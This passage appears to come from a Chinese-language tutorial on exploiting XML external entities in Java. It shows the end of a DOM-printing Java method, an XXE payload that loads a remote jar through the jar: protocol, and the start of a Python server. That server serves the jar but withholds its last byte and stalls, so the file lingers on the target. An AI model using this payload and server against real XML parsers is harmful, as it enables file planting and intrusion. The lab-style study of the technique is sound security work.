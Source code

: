 ```javascript
            {
                System.out.print("<!--");

                Comment comment = (Comment)node;

                //注释内容
                String data = comment.getData();

                System.out.print(data);

                System.out.print("-->");
            }
        }

        System.out.print("</" + tagName + ">");
    }
}
```

复制

建立一个 xml 文件

test.xml

```javascript
<!DOCTYPE convert [ 
<!ENTITY  remote SYSTEM "jar:http://localhost:9999/jar.zip!/wm.php">
]>
<convert>&remote;</convert>

```

复制

9999 端口上放一个用 python 写 TCP 服务器

sever.py

```javascript
import sys 
import time 
import threading 
import socketserver 
from urllib.parse import quote 
import http.client as httpc 

listen_host = 'localhost' 
listen_port = 9999 
jar_file = sys.argv[1]

class JarRequestHandler(socketserver.BaseRequestHandler):  
    def handle(self):
        http_req = b''
        print('New connection:',self.client_address)
        while b'\r\n\r\n' not in http_req:
            try:
                http_req += self.request.recv(4096)
                print('Client req:\r\n',http_req.decode())
                jf = open(jar_file, 'rb')
                contents = jf.read()
                headers = ('''HTTP/1.0 200 OK\r\n'''
                '''Content-Type: application/java-archive\r\n\r\n''')
                self.request.sendall(headers.encode('ascii'))

                self.request.sendall(contents[:-1])
                time.sleep(30)
```